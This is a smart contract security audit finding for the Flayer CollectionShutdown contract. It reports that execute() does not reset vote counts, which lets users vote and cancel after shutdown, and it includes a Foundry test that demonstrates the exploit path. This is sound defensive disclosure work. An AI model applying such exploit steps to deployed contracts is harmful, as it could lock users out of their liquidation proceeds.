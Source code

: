 Genuine Slate Sloth

High

# Broken Logic in CollectionShutdown::execute Function Leading to Multiple Vulnerabilities

## Summary
Several functions in the `CollectionShutdown` contract are broken due to missing logic in the `CollectionShutdown::execute` function.

## Vulnerability Detail
In the `CollectionShutdown::execute` function, the `shutdownVotes` and `quorumVotes` fields of the `_collectionParams[_collection]` state variable are not reset. This leads to several issues, which are listed in the `Impact` section. More details can be found in the `Proof of Concept` section.

[CollectionShutdown::execute](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L231-L275) function:
```Solidity
function execute(address _collection, uint[] calldata _tokenIds) public onlyOwner whenNotPaused {
    ...
    // Set the token IDs that have been sent to our sweeper pool
    params.sweeperPoolTokenIds = _tokenIds;
    // note Have case that two pools point to the same collection
    sweeperPoolCollection[pool] = _collection;

    // Update our collection parameters with the pool
    params.sweeperPool = pool;

    // Prevent the collection from being executed again
    params.canExecute = false;
    emit CollectionShutdownExecuted(_collection, pool, _tokenIds);
}
```

## Impact
- Users can call the `CollectionShutdown::cancel` function even after the `CollectionShutdown::execute` function has been executed. As a result, users are unable to claim both ERC20 tokens and ETH after the collection has been fully liquidated.
- Users can still vote even after the collection has been shut down.
- Each collection can initiate the shutdown process only once, although the collection can be created multiple times.

## Proof of Concept
Copy this test case into the file `CollectionShutdown.t.sol` and run the command `forge test --mt test_cancelAfterExecute -vv` to see the results.

```Solidity
function test_cancelAfterExecute() external {
    // Create collection
    uint256 DENOMINATION = 6;
    locker.createCollection(address(erc721c), 'Test Collection', 'TEST', DENOMINATION);
    locker.setInitialized(address(erc721c), true);
    ICollectionToken collectionErc20Token = locker.collectionToken(address(erc721c));

    // Mint NFT for users
    address user1 = makeAddr('user1');
    address user2 = makeAddr('user2');
    erc721c.mint(user1, 1);
    erc721c.mint(user2, 2);

    // Deposit token
    uint256[] memory tokenIds = new uint256[](1);
    vm.startPrank(user1);
    tokenIds[0] = 1;
    erc721c.setApprovalForAll(address(locker), true);
    locker.deposit(address(erc721c), tokenIds);
    vm.stopPrank();

    vm.startPrank(user2);
    tokenIds[0] = 2;
    erc721c.setApprovalForAll(address(locker), true);
    locker.deposit(address(erc721c), tokenIds);
    vm.stopPrank();
    
    // Check total supply
    uint256 totalSupply = collectionErc20Token.totalSupply();
    assertEq(totalSupply, 2 ether * 10** DENOMINATION);
    
    // Initiate the process to shut down the collection
    vm.startPrank(user1);
    collectionErc20Token.approve(address(collectionShutdown), type(uint256).max);
    collectionShutdown.start(address(erc721c));
    vm.stopPrank();

    // Check shutdown params
    ICollectionShutdown.CollectionShutdownParams memory shutdownParams = collectionShutdown.collectionParams(address(erc721c));
    console.log('Shutdown Votes: ', shutdownParams.shutdownVotes);
    console.log('Quorum Votes:   ', shutdownParams.quorumVotes);
    assertEq(shutdownParams.canExecute, true);
    // Shutdown the collection
    collectionShutdown.execute(address(erc721c), tokenIds);
    assertEq(collectionShutdown.collectionParams(address(erc721c)).canExecute, false);

    // User2 can still vote to shut down the collection; therefore, change shutdownParams.canExecute to true
    vm.startPrank(user2);
    collectionErc20Token.approve(address(collectionShutdown), type(uint256).max);
    collectionShutdown.vote(address(erc721c));
    vm.stopPrank();
    assertEq(collectionShutdown.collectionParams(address(erc721c)).canExecute, true);

    // Create collection once again with little than denomination
    locker.createCollection(address(erc721c), 'Test Collection', 'TEST', 0);

    // User can call cancel function
    vm.startPrank(user2);
    collectionShutdown.cancel(address(erc721c));
    vm.stopPrank();
    assertEq(collectionShutdown.collectionParams(address(erc721c)).canExecute, false);
}
```

## Code Snippet
- [CollectionShutdown::execute](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L231-L275) function
- [CollectionShutdown::vote](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L175-L181) function

## Tool used

Manual Review

## Recommendation
Carefully consider how to address this issue. If you reset the values of both `shutdownVotes` and `quorumVotes` in the `CollectionShutdown::execute` function, users will be able to initiate the collection shutdown process multiple times for the same collection, as the `Locker::createCollection` function can be called after the collection is shut down. As a result, fields in the `_collectionParams[_collection]` state variable will be overwritten. If you reset only the `quorumVotes` field, each collection can initiate the shutdown process only once, even though it can be created multiple times.